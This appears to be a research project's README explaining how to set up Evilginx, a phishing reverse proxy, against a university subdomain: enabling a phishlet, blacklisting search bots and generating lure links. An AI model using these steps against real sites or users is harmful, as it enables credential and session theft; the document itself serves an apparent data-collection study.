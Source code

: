 # Evilginx

The Evilginx binary was run manually within a tmux window to prevent it from exiting upon terminating its parent SSH session. 

Make sure your configuration file is placed in ./phishlets/configName.yaml, relative to the Evilginx binary itself. The example "fingerprint.yml" configuration can be used by replacing all instances of "fingerprint" or "byu.edu" with your target subdomain and domain respectively, and by replacing "evilginx" with your proxy subdomain. The "path" configuration line determines where the user lands when navigating to the proxy domain. 

Ensure the Evilginx binary is executable:
```
chmod +x evilginx
```

Run the binary to begin configuring it further:
```
sudo evilginx
```

Set up the domain and IP address, then blacklist search bots:
```
config domain <domain>

config ip <IP>

blacklist unauth
```

Set the fingerprint phishlet to use your domain name, then turn it on:  
```
phishlets hostname fingerprint fingerprint.byu.edu

phishlets enable fingerprint
```

This will automatically request an SSL certificate from Let's Encrypt as long as you've done the DNS step properly. 

Now create a lure, or a link that will be used to access the proxy site:  
```
lures create fingerprint

lures edit 0 redirect_url https://fingerprint.byu.edu/wp-admin

lures get-url 0
```

This will return a URL that can not be used to send requests through the proxy!

Evilginx v3.3.0 was used for our data collection. 
